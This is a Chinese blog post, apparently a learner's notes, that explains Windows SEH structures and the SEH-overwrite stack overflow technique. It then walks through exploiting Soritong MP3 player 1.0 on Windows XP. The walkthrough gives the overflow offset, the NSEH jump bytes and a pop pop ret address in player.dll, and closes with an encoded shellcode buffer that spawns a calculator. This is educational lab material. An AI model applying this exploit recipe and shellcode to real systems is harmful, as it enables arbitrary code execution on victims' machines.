


# 简介
> 在看了《Exploit编写系列教程》的第三章和几篇SEH的博客后稍微记录一下。最后虽然整个分析的流程和教程的一模一样，但是用msf生成的payload并没有成功弹出计算器。我还是个新手小白所以虽然看了很久的教程但还是有一些不是很清楚。下面从下面三个部分记录一下
- 1.SEH的概念和一些数据结构
- 2.利用SEH进行栈溢出的原理
- 3.《Exploit编写系列教程》中的案例分析
<!--more-->
# 环境

- 运行环境：Windows XP Professional EN (SP0)
- 调试软件：ollydbg 2.0
- python：2.7
- 有漏洞软件：Soritong MP3 player 1.0
- 所有代码，软件都在下面的百度云链接中

# SEH概述
> SEH即异常处理结构体（Structure Exception Handler），是Windows异常处理机制的重要数据结构。下面只简单介绍几个必要的概念：

- 结构化异常处理是基于线程的。当线程初始化时会自动向栈中安装一个SEH作为线程默认的异常处理
- 在程序源码中使用__try{}__except{}或者Assert等异常处理机制，编译器将最终通过当前函数栈中安装一个SEH来实现异常处理
- 每个SEH包含一个_EXCEPTION_REGISTRATION结构体。结构体包含两个DWORD指针:SEH链表指针（Next SEH Recorder）和异常处理函数句柄（Exception Handler）
- 栈中一般会有多个SEH
- 栈中多个SEH通过链表的指针（Next SEH Recorder）在栈内由栈顶向栈底串成单向链表
- TEB的0字节处（FS:[0]）指向最顶上的SEH。所以当异常发生时，系统首先从TEB的0字节处取得第一个SEH结构进行异常处理。当异常处理函数无法处理该异常时，会顺着SEH链寻找下一个异常处理函数来处理。如果都无法处理，最后一个SEH链表指针会指向0xFFFFFFFF表示是最后一个SEH，一般这时就会弹出一个我们常见的报错，然后程序退出。下图就是SEH调用链



# 利用SEH进行栈溢出的原理

- 1. SEH放在栈内，可能会被溢出的数据把Next SEH Recorder和Exception Handler覆盖
- 2. 将Exception Handler覆盖为ShellCode的入口地址
- 3. 溢出数据触发异常，使系统调用SEH链进行异常处理

> 下面实验中，将Next SEH Recorder覆盖为"\xeb\x06\x90\x90"（jmp 0x06 nop nop的机器码，向后跳转到ShellCode的入口地址），将Exception Handler覆盖为pop pop ret的地址，再将Exception Handler后面的内容覆盖为ShellCode内容。为什么要找pop pop ret来使用呢？下面是调用Exception Handler时的栈帧，下一个EXCEPTION_REGISTRATION结构在ESP+08的地方，执行了pop pop ret后正好把EXCEPTION_REGISTRATION的地址（就是前面的Next SEH Recorder的地址）送入到EIP中，程序跳转到执行jmp 0x06正好跳转到shellcode代码地址处执行。

```
EBP-00 _ebp
EBP-04 trylevel
EBP-08 scopetable数组指针
EBP-0C handler函数地址
EBP-10指向下一个EXCEPTION_REGISTRATION结构
EBP-14 GetExceptionInformation
EBP-18 栈帧中的标准ESP
```

# 实例分析

## 找到溢出点 
>已经知道5000个A的UI.txt会触发Soritong MP3 player 1.0的SEH，表现就是程序闪退并没有出现默认的报错（当然这也不能判断一定覆盖到了SEH）。先用patter.py生成5000个字符，然后用ollydbg来调试该软件找到是哪几个覆盖了NSEH和Handler。如下图所示。NSEH被4At5成功覆盖，Handler被At6A覆盖。通过pattern.py可以知道4At5在584。现在也就已经得到exp的组成结构了:**['A'\*584]["\xeb\x06\x90\x90"][pop pop ret的地址][ShellCode]['A'\*1000触发溢出]**


```
(py2) C:\workplace\tools>python pattern.py 4At5
Pattern 4At5 first occurrence at position 584 in pattern.
```

## 找到pop pop ret
> 为了exp的稳定性一般选用软件自带的DLL来作为跳板，这次使用软件自带的player.dll。在ollydbg的player.dll的汇编代码区右键->search for->sequence of commands输入pop ESI pop EDI ret。找到地址为0x1009e812 (中间不能出现0x00)

## 生成shellcode
>现在就剩最后一步了就是生成shellcode。但是这步我用msf没有生成的shellcode并没有成功弹出计算器，但是用他的shellcode却成功弹了计算器。下面是shellcode代码

```python
buf = ""
# success
buf +="\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49"
buf +="\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36"
buf +="\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34"
buf +="\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44\x41"
buf +="\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x44"
buf +="\x42\x30\x42\x50\x42\x30\x4b\x38\x45\x54\x4e\x33\x4b\x58\x4e\x37"
buf +="\x45\x50\x4a\x47\x41\x30\x4f\x4e\x4b\x38\x4f\x44\x4a\x41\x4b\x48"
buf +="\x4f\x35\x42\x32\x41\x50\x4b\x4e\x49\x34\x4b\x38\x46\x43\x4b\x48"
buf +="\x41\x30\x50\x4e\x41\x43\x42\x4c\x49\x39\x4e\x4a\x46\x48\x42\x4c"
buf +="\x46\x37\x47\x50\x41\x4c\x4c\x4c\x4d\x50\x41\x30\x44\x4c\x4b\x4e"
buf +="\x46\x4f\x4b\x43\x46\x35\x46\x42\x46\x30\x45\x47\x45\x4e\x4b\x48"
buf +="\x4f\x35\x46\x42\x41\x50\x4b\x4e\x48\x46\x4b\x58\x4e\x30\x4b\x54"
buf +="\x4b\x58\x4f\x55\x4e\x31\x41\x50\x4b\x4e\x4b\x58\x4e\x31\x4b\x48"
buf +="\x41\x30\x4b\x4e\x49\x38\x4e\x45\x46\x52\x46\x30\x43\x4c\x41\x43"
buf +="\x42\x4c\x46\x46\x4b\x48\x42\x54\x42\x53\x45\x38\x42\x4c\x4a\x57"
buf +="\x4e\x30\x4b\x48\x42\x54\x4e\x30\x4b\x48\x42\x37\x4e\x51\x4d\x4a"
buf +="\x4b\x58\x4a\x56\x4a\x50\x4b\x4e\x49\x30\x4b\x38\x42\x38\x42\x4b"
buf +="\x42\x50\x42\x30\x42\x50\x4b\x58\x4a\x46\x4e\x43\x4f\x35\x41\x53"
buf +="\x48\x4f\x42\x56\x48\x45\x49\x38\x4a\x4f\x43\x48\x42\x4c\x4b\x37"
buf +="\x42\x35\x4a\x46\x42\x4f\x4c\x48\x46\x50\x4f\x45\x4a\x46\x4a\x49"
buf +="\x50\x4f\x4c\x58\x50\x30\x47\x45\x4f\x4f\x47\x4e\x43\x36\x41\x46"
buf +="\x4e\x36\x43\x46\x42\x50\x5a"
```

# 总结

> 总结就用那个公式就能解释在以前的windows系统上利用SEH的原理:**[填充触发SEH]["\xeb\x06\x90\x90"][pop pop ret的地址][ShellCode][填充触发SEH]**

- [SEH相关文章链接](https://blog.csdn.net/chenlycly/article/details/52575260)
- [配套资料百度云链接](https://pan.baidu.com/s/1cFOWWJj1IaMHh67FBdbQgA)     提取码：bxa1
